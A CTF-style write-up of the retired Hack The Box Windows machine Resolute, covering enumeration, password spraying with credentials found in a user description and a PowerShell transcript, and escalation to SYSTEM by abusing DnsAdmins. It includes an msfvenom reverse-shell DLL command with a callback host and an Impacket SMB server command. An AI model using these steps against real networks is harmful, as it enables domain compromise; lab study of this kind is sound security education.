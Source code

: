 ```yaml
---
permalink: /posts/HTB/Resolute
title: "HTB Resolute Write-up"
header-img: "/assets/images/HTB/Resolute/InfoCard.jpg"
header:
  teaser: "/assets/images/HTB/Resolute/InfoCard.jpg"
description: "Hackthebox's Resolute is a medium-rated Windows machine acting as the Domain Controller and DNS server for Megabank"
categories: 
  - CTF
date: 2020-05-30 18:30
tags: HTB Windows DNS
---
```

# Hackthebox - Resolute - 10.10.10.169

## Summary
Today, [Hackthebox](https://www.hackthebox.eu) retired Resolute,  a medium-rated Windows machine acting as the Domain Controller and DNS server for Megabank.
Here's my write-up.

![InfoCard](/assets/images/HTB/Resolute/InfoCard.jpg)

## Enumeration

Starting enumeration off with an initial nmap scan.
```
nmap -sV -sT -sC -p- -o nmapinitial -T4 10.10.10.169
```
While nmap returned a lot of opened ports , it doesn't look like there's anything I can use for now.

![nmapinitial](/assets/images/HTB/Resolute/nmapinitial.jpg)

I decide to also run enum4linux
```
enum4linux -o -U -G -S 10.10.10.169 > enum4linuxout.txt
```

Enum4linux does find something useful. It looks like the administrator added one of the user's initial password in the user's description.

![enum4linux](/assets/images/HTB/Resolute/enum4linux.jpg)

## Initial foothold and user flag

Trying to connect to the target using Evil-WinRM and marko's credentials fails, meaning that the user might have had their password changed in the meantime.

Since the admin might have been lazy and used the same password with other accounts, it is worth trying to connect to the target using the other user names combined with the _Welcome123!_ password.

I've created a list of all the user names found by enum4linux in order to use it with Metasploit's SMB Login Check Scanner

![users](/assets/images/HTB/Resolute/users.jpg)

I fire up msfconsole, configure necessary options and run it. It looks like the melanie user account works with the password found via enum4linux.

![smblogincheck](/assets/images/HTB/Resolute/smblogincheck.jpg)

I'm able to successfully connect using melanie's credentials and obtain the user flag.

![userflag](/assets/images/HTB/Resolute/userflag.jpg)

## Privilege escalation

After some more enumeration of the directories and files on the system, I find the C:\SPTranscripts directory.

![dirforce](/assets/images/HTB/Resolute/dirforce.jpg)

The PSTranscripts directory contains the PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt file in which I found ryan's password.

![ryanspass](/assets/images/HTB/Resolute/ryanspass.jpg)

Connecting with ryan's credentials works and, even though the ryan user is not a member of the Administrators group, it is a member of the [DnsAdmins](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise) group

![ryan](/assets/images/HTB/Resolute/ryan.jpg)

## Privilege escalation to system and getting the root flag

I create the payload that will spawn a reverse shell using msfvenom with the following parameters: 
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=4455 --platform windows -a x64 -e x64/xor -i 12 -f dll -o dns.dll
```

![msfvenom](/assets/images/HTB/Resolute/msfvenom.jpg)

I then set up an SMB share using Impacket's smbserver.py.
```
python /root/Scripts/Impacket/impacket-0.9.20/examples/smbserver.py DNSPLD ./
```

I configure metasploit and start a the listener to catch the connection from the target once the payload is executed.

![msfclistener](/assets/images/HTB/Resolute/msfclistener.jpg)

And I proceed to load the payload into the target's DNS configuration and then restart the DNS service.

![loadpayload](/assets/images/HTB/Resolute/loadpayload.jpg)

In a few seconds I get a meterpreter shell as the system user.

![meterpretersession](/assets/images/HTB/Resolute/meterpretersession.jpg)

Then get the root flag.

![rootflag](/assets/images/HTB/Resolute/rootflag.jpg)

And that's pretty much it.

